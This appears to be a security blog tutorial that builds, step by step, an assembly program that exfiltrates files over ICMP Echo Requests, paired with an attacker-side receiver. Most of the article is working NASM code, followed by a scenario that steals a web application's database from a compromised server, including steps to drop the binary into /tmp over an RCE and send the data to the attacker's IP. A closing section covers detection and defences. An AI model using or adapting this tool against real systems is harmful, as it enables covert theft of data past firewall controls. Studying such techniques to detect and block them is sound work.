








<div class="article-header">
<h1>Data Exfiltration via ICMP Echo Request</h1>
<span class="article-meta">27/10/2026 · 60 min</span>
</div>

Data exfiltration via ICMP Echo Request.

---

!!! warning "Responsible use"
    The content of this website is published **exclusively for educational and informational purposes**. The author **does not promote, endorse, or accept responsibility** for any misuse or illegal use of the information presented here. Any action taken based on this content must be carried out **only** in controlled environments, on systems you own, or **with the explicit and verifiable authorization** of the system owner.

## Introduction

This article develops, step by step, a mechanism for exfiltrating information through the ICMP protocol. The implementation is divided into two components: a **sender**, running on the victim machine, that embeds the data to be extracted in ICMP Echo Request messages, and a **receiver**, located on the attacker machine, that processes the incoming messages to reassemble the transmitted information.

==The source code is available [here](https://github.com/0x574R/ICMP-Exfil-x86-64).==

## ICMP Echo

ICMP (*Internet Control Message Protocol*, RFC 792) is the control protocol that accompanies IP. Among its messages are the **Echo Request** (type 8) and the **Echo Reply** (type 0). When a host receives an Echo Request, its network stack responds with an Echo Reply that **reproduces the received data field in its entirety**.

This data field is **opaque to the protocol**. ICMP assigns it no structure or meaning, only requiring the Echo Reply to return it unaltered. It is, therefore, a viable transport medium for our bytes.

An ICMP Echo message consists of a **fixed 8-byte header** followed by the variable-length data field:

<div class="code-centered" markdown>

```c
   0                   1                   2                   3
   0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1   bits
  +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
  |     Type      |     Code      |           Checksum            |
  +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
  |          Identifier           |        Sequence Number        |
  +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
  |                    Data (variable length)                     |
  +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

</div>

| Field | Bytes | Purpose | Value in Echo Request | Value in Echo Reply |
|-------|--------|---------|----------------------|---------------------|
| Type | 0 | ICMP message type. Distinguishes an Echo Request or Echo Reply from other ICMP messages. | 8 (Echo Request) | 0 (Echo Reply) |
| Code | 1 | A subtype within the type. Not used for Echo messages. | 0 | 0 |
| Checksum | 2-3 | Checksum of the entire ICMP message (header and data), used to detect corruption in transit. | Computed by the kernel | Recomputed by the remote host's kernel |
| Identifier | 4-5 | Identifies the sender. The remote host reflects it in the Echo Reply, enabling delivery of the response to the socket that originated the request. | Written by the kernel | Reflected (same as the request) |
| Sequence Number | 6-7 | Numbers each Echo within a series. The Echo Reply returns it, allowing each response to be matched with its request and enabling loss detection. | Defined by the sender (e.g., incremental counter in network byte order) | Reflected (same as the request) |

### Packet breakdown

The same header (8 bytes), now field by field with its byte offset:

<div class="code-centered" markdown>

```c
      0        1        2        3        4        5        6        7
  +--------+--------+--------+--------+--------+--------+--------+--------+
  |  Type  |  Code  |    Checksum     |   Identifier    | Sequence Number |
  +--------+--------+--------+--------+--------+--------+--------+--------+
```

</div>

Taking the value to exfiltrate `deadbeef` (4 bytes), the complete buffer the program will assemble before transmission will occupy 12 bytes (header + data):

<div class="code-centered" markdown>

```c
  header:
    [0]       08          Type             // Defined by the program
    [1]       00          Code             // Defined by the program
    [2..3]    00 00       Checksum         // Filled in by the kernel
    [4..5]    00 00       Identifier       // Filled in by the kernel
    [6..7]    00 01       Sequence Number  // Defined by the program
  data:
    [8..11]   de ad be ef   Data           // Defined by the program
```

</div>

When the destination host receives the Echo Request, its network stack will respond with an Echo Reply (type 0). **The reply preserves the same header structure and, most importantly, reproduces the data field byte for byte**. This mechanism allows integrity verification in both directions.

!!! note ""
    The Echo Reply header has the same 8-byte layout as the request; only the values change, not the fields or their positions.

## Channel constraints

The maximum size of the data field is limited by the network interface's MTU. Furthermore, since the ICMP packet is encapsulated within an IP packet, the headers of both protocols must be accounted for.

<div class="code-centered" markdown>

```
Data = MTU − IP Header − ICMP Header
Data = 1500 − 20 − 8 = 1472 bytes (max)
```

</div>

Exceeding this limit causes IP fragmentation.

## ICMP datagram sockets

Crafting an ICMP message generally requires a raw socket (`SOCK_RAW`), which demands the `CAP_NET_RAW` privilege. However, there is a lower-privilege interface: the **ICMP datagram socket**, requested with `socket(AF_INET, SOCK_DGRAM, IPPROTO_ICMP)`. It is a deliberately restricted interface that only works with Echo messages, and its use is therefore typically authorized for unprivileged processes.

Authorization is governed by the kernel parameter `net.ipv4.ping_group_range`, which defines the range of group identifiers (GIDs) that are allowed:

```bash
cat /proc/sys/net/ipv4/ping_group_range
0    2147483647
```

A range of `0 2147483647` enables all groups. A range of `1 0` is empty (minimum greater than maximum) and enables no one; in that case, `socket` will fail with `EACCES` (errno 13).

The value can be modified as follows:

```bash
sysctl -w net.ipv4.ping_group_range="0 2147483647"
```

The ICMP datagram socket differs from the raw socket in several ways that should be understood before designing the program:

| Aspect | Raw Socket | ICMP Datagram Socket |
|--------|-----------|----------------------|
| Required privilege | `CAP_NET_RAW` | None (subject to `ping_group_range`) |
| ICMP checksum | Computed by the sender | Computed by the kernel |
| Identifier field | Set by the sender | Written by the kernel (demultiplexing key) |
| Reception | Includes the IP header | No IP header, starts at the ICMP header |
| Messages | Any ICMP message type | Only Echo Request (send) and Echo Reply directed to that socket (receive) |

## Tool flow

The goal is to build a program that reads a file from the local filesystem, splits it into fixed-size blocks, and transmits them within the data field of ICMP Echo Request messages. On the receiving end, the packets are captured, indexed by their Sequence Number, and the original file is reconstructed from the ordered fragments.

The design is divided into two components:

- The **sender** (NASM), runs on the target system.
- The **receiver** (Python), runs on the attacker's machine.

### Sender flow

## Sender implementation

{ .img-large .no-border }

### Data structures

The program defines the following structures in the `.data` section:

```nasm
section .data    
    
    pathname db '/etc/services', 0                ; Pathname
    size_block dq 2                               ; Size of each data chunk (bytes)

    seq_n dw 1                                    ; Current sequence number

    req:
        dq 0              ; tv_sec  = 0 seconds
        dq 10000000        ; tv_nsec = 10000000 nanoseconds (10 ms)


    echo_request_header:
        db 8                     ; Type
        db 0                     ; Code
        dw 0                     ; Checksum
        dw 0                     ; Identifier 
        dw 0x0000                ; Sequence Number (net order)


    sockaddr_in:
        dw 2                ; sin_family = AF_INET
        dw 0                ; sin_port = 0
        dd 0x00000000       ; sin_addr   = 0.0.0.0 (accepts from all interfaces)
        dq 0                ; sin_zero (padding) 


section .bss

        icmp_request resb 1480       ; Full ICMP packet buffer (header + payload)
        file_size resq 1             ; Total file size in bytes
        buff resq 1                  ; Pointer to heap-allocated read buffer
```

- **`pathname`** is the path of the file to exfiltrate, null-terminated.
- **`size_block`** determines the size of each fragment. It dictates how many bytes of the file are included as the data field in each ICMP packet.
- **`seq_n`** refers to the Sequence Number of the next packet to be sent. It starts at 1 and is incremented after each transmission. The receiver uses it as a sorting key to reconstruct the file.
- **`req`** is a `struct timespec` used to introduce a delay between packets, preventing the kernel from applying rate limiting on outgoing ICMP messages.
- **`echo_request_header`** is the ICMP header template (8 bytes). The Type (8 = Echo Request) and Code (0) are fixed. The Checksum and Identifier are left at zero because the kernel fills them in automatically when using a `SOCK_DGRAM` socket. The Sequence Number will be overwritten before each transmission.
- **`sockaddr_in`** identifies the packet destination. `sin_family` indicates IPv4, `sin_port` is 0 (ICMP does not use ports), and `sin_addr` contains the destination IP address.

In the `.bss` section, the uninitialized buffers are reserved:

- **`icmp_request`** (1480 bytes) is the buffer where the complete ICMP packet will be assembled (8 bytes of header + up to 1472 bytes of data).
- **`file_size`** stores the total size of the file to be transmitted.
- **`buff`** stores the address of a heap buffer. This is the intermediate area where each block read from the file is placed before being copied into the ICMP packet.

### Opening the file and calculating its size

The file is opened in read-only mode with the `open` syscall, returning the file descriptor that will identify it for the remainder of the program:

```nasm
    ; OPEN
    mov rax, 2
    lea rdi, [rel pathname]
    xor rsi, rsi                 ; O_RDONLY = 0
    xor rdx, rdx                 ; mode = 0
    syscall

    mov r12, rax ; Save file descriptor
```

The file size is obtained by seeking the file descriptor's read cursor to the end with `lseek`. The resulting offset corresponds to the total size in bytes:

```nasm
    ; LSEEK
    mov rax, 8
    mov rdi, r12
    xor rsi, rsi        ; offset = 0
    mov rdx, 2          ; SEEK_END
    syscall

    lea r13, [rel file_size]
    mov [r13], rax                 ; Store file size
```

### Memory allocation

The program allocates space on the heap by manipulating the program break with `brk`:

```nasm
    ;BRK
    mov rax, 12
    xor rdi, rdi                   ; Query current program break
    syscall

    lea r13, [rel buff]
    mov [r13], rax                   ; Store heap buffer address

    mov r14, [rel size_block]
    mov rax, 12
    mov rdi, r13
    add rdi, r14                      ; Extend break by size_block bytes
    syscall
```

The first invocation queries the current program break. The second extends it by `size_block` bytes. This gives us a heap buffer capable of holding `size_block` bytes of the file to exfiltrate.

After allocating memory, the file cursor is reset to the beginning:

```nasm
    ; LSEEK
    mov rax, 8
    mov rdi, r12
    xor rsi, rsi        ; offset = 0
    xor rdx, rdx        ; SEEK_SET
    syscall
```

### Socket creation

The ICMP socket is created using the `socket` syscall:

```nasm
    ; SOCKET
    mov rax, 41
    mov rdi, 2    ; AF_INET = 2 =  IPv4
    mov rsi, 2    ; SOCK_DGRAM = UPD Datagrams
    mov rdx, 1    ; IPPROTO_ICMP = ICMP Protocol
    syscall 

    ; rax < 0 error
    ; rax > FD

    mov r13, rax   ; Save socket fd
```

Using `SOCK_DGRAM` with `IPPROTO_ICMP` allows sending Echo messages without requiring the `CAP_NET_RAW` capability, delegating checksum computation and Identifier assignment to the kernel.

### Read and send loop

The main loop reads the file block by block, constructs the ICMP packet, and transmits it:

```nasm
xor r14,r14
read_loop:

    ;READ
    mov rax, 0
    mov rdi, r12                    ; FD
    lea rsi, [rel buff]             ; Destination buffer
    mov rdx, [rel size_block]       ; Bytes to read
    syscall 
    add r14, rax                    ; Accumulate total bytes read

    lea r15, [rel buff]            
```

Each iteration reads up to `size_block` bytes from the file. The last read may return fewer bytes if there are not enough remaining, in which case the rest of the block remains zeroed.

#### Packet construction

The `header_creation` function copies the 8 bytes of the ICMP header to the beginning of the outgoing packet (`icmp_request`):

```nasm
    header_creation:
        lea rsi, [rel echo_request_header]
        lea rdi, [rel icmp_request]
        mov rcx, 1     
        cld
        rep movsq
        ret
```

```nasm
data:
    call header_creation                ; Create ICMP header
                                        
                                        ; Create ICMP Data
    mov rsi, r15
    lea rdi, [rel icmp_request + 8]
    mov rcx, [rel size_block]     
    cld
    rep movsb
```

Next, the Sequence Number value in the header is replaced with the value corresponding to the current transmission. The field must be in network byte order (big-endian):

```nasm
    mov ax, [rel seq_n]             ; Load current sequence number
    xchg al, ah                     ; Convert to network byte order (big-endian)
    mov word [rel echo_request_header + 6], ax
```

#### Delay between transmissions

The Linux kernel applies rate limiting to outgoing ICMP messages through the `net.ipv4.icmp_ratelimit` parameter. Without a delay between transmissions, the kernel will silently discard packets.

```nasm
    ; NANOSLEEP
    mov rax, 35
    lea rdi, [rel req]
    xor rsi, rsi
    syscall
```

#### Sending and loop control

The `sendto` syscall transmits the complete `icmp_request` packet (8-byte header + `size_block` bytes of data) to the destination defined in `sockaddr_in`. The kernel automatically prepends the IP header (20 bytes), computes the ICMP checksum, and writes the Identifier. After sending, the Sequence Number is incremented for the next packet.

```nasm
    ; SENDTO
    mov rax, 44
    mov rdi, r13                     ; Socket fd
    lea rsi, [rel icmp_request]      ; Packet buffer
    mov rdx, 8                       ; Total length = header
    add rdx, [rel size_block]        ; Total length = header + payload
    xor r10, r10                     ; Flags = 0
    lea r8, [rel sockaddr_in]        ; Destination address
    mov r9, 16                       ; Address struct size
    syscall
    
    inc word [rel seq_n]
```

Before returning to the top of the loop, the read buffer is filled with zeros to prevent residual data from contaminating the next block (which may be shorter than `size_block`):

```nasm
    lea rdi, [rel buff]
    mov rcx, [rel size_block]   
    xor al, al                    ; Fill value = 0
    cld
    rep stosb          

    cmp r14, [file_size]           
    jl read_loop
```

When the total file size is reached, the program exits the loop, closes the file descriptor, and terminates:

```nasm
    ; CLOSE
    mov rax, 3
    mov rdi, r12
    syscall

    ; EXIT
    mov rax, 60
    xor rdi, rdi
    syscall
```

## Receiver flow

The receiver runs on the attacker's machine. It uses a raw socket (`SOCK_RAW, IPPROTO_ICMP`) to capture incoming Echo Requests, since an ICMP datagram socket only delivers Echo Replies corresponding to Echo Requests sent by that same socket. The raw socket requires privileges (`CAP_NET_RAW`).

For each received packet, the receiver computes the actual IP header length (IHL field), jumps to the beginning of the ICMP header, filters by type 8 and code 0, extracts the Sequence Number in network byte order, and stores the payload in an indexed dictionary. When an inactivity period elapses without receiving new packets, the file is reconstructed by concatenating payloads in ascending Sequence Number order, and the trailing null bytes of the last block are stripped.

The receiver supports multiple transmission rounds. If packets are lost, the sender can be relaunched and the gaps in the dictionary will be filled in with each run.

## Practical scenario

A web server has been compromised by exploiting a remote command execution vulnerability. The firewall rules allow incoming traffic to the web service but block outbound TCP and UDP connections, preventing the establishment of a reverse shell or data exfiltration through conventional channels. However, outbound ICMP traffic is allowed, as the host uses it for availability monitoring.

The objective is to exfiltrate the application database (`app.db`), a binary file larger than one megabyte that cannot be dumped through the HTTP response.

### Preparation

`ping.asm` is edited before compilation, setting the target file path and the attacker's IP address as the destination:

```nasm
    pathname db '/var/www/html/app.db', 0
    size_block dq 256

...

    sockaddr_in:
        dw 2
        dw 0
        dd 0x1212A8C0       ; Attacker's IP in little-endian
        dq 0
```

{ .img-centered width=920 }

The sender is compiled:

```bash
nasm -f elf64 ping.asm -o ping.o
ld ping.o -o ping
```

### Transfer

The compiled binary is transferred to the compromised machine through the RCE vulnerability (Base64-encoded for HTTP transport):

```bash
# Attacker Machine

# Encode
base64 ping
```

{ .img-centered width=920 }

```bash
# Victim Machine

# Store the executable in /tmp
echo '<ping_base64>' | base64 -d > /tmp/ping

# Grant execute permissions to the file
chmod +x /tmp/ping
```

### Deployment

The receiver is launched on the attacker's machine:

```bash
sudo python3 pong.py -o app.db
```

Once the receiver is running, the sender is launched on the target machine:

```bash
/tmp/ping
```

<figure markdown>
{ .img-large }
<figcaption>Wireshark capture of ICMP traffic.</figcaption>
</figure>

### Verification

When iteration N detects no new packets, it is interrupted with <kbd>Ctrl</kbd>+<kbd>C</kbd> to reconstruct the file:

{ .img-centered width=920 }

{ .img-centered width=920 }

The integrity of the exfiltrated file is verified by comparing hashes:

```bash
# Victim machine (via RCE)
md5sum /var/www/app/app.db

# Attacker machine
md5sum app.db
```

{ .img-centered width=920 }

{ .img-centered width=920 }

The file has been exfiltrated without establishing any TCP or UDP connection, using only ICMP traffic.

## Detection

This technique is cataloged in MITRE ATT&CK under techniques **T1095** (*Non-Application Layer Protocol*) and **T1048** (*Exfiltration Over Alternative Protocol*).

The indicators that a detection system can detect are the following:

- **Payload size**: ICMP Echo messages generated by the Linux `ping` utility carry 56 bytes of data by default (48 bytes of padding after the 8-byte timestamp). Windows messages carry 32 bytes with a recognizable alphabetical pattern. A sustained flow of Echo Requests with a larger payload deviates from the baseline.
- **Volume and frequency**: a legitimate `ping` sends one packet per second. The sender, even with the 10-millisecond delay, generates vastly more traffic (although this could be tuned and even jittered). NDR (Network Detection and Response) solutions correlate the number of Echo Requests per time unit with the variation in their payload sizes to identify tunneling activity.
- **Payload entropy**: the content of a legitimate `ping` follows a predictable pattern (incremental bytes on Linux, alphabetical sequence on Windows). Exfiltrated data exhibits a different byte distribution, which increases payload entropy. An IDS that computes entropy could identify the exfiltration.
- **Uniform temporal pattern**: a constant delay between packets (10 ms in this implementation) produces a temporal pattern that stands out against organic ICMP traffic. Introducing random jitter between transmissions hinders detection based on timing analysis.

## Defensive countermeasures

From the defender's perspective, the most effective measures are:

- **Rate limiting outbound ICMP messages**: the `net.ipv4.icmp_ratelimit` kernel parameter limits the sending rate of outbound ICMP messages. A restrictive value (e.g., one message per second) drastically reduces the information exchange rate.
- **Blocking ICMP messages beyond the perimeter**: many corporate environments do not require outbound Echo Requests. Blocking them eliminates this vector.
- **ICMP message inspection**: IDS rules that alert on Echo Requests with sizes exceeding a threshold (64 bytes covers legitimate `ping` messages from both platforms).
- **Monitoring with eBPF**: eBPF programs attached to the network subsystem (`TC` or `XDP`) can inspect ICMP packets in the kernel before they leave the host, enabling detection at the point of origin.

## Acknowledgments

Thank you for making it this far.

If you find errors or want to improve or extend this article, the blog content is open to Pull Requests. All contributions are welcome.

See you in the next article! ;)
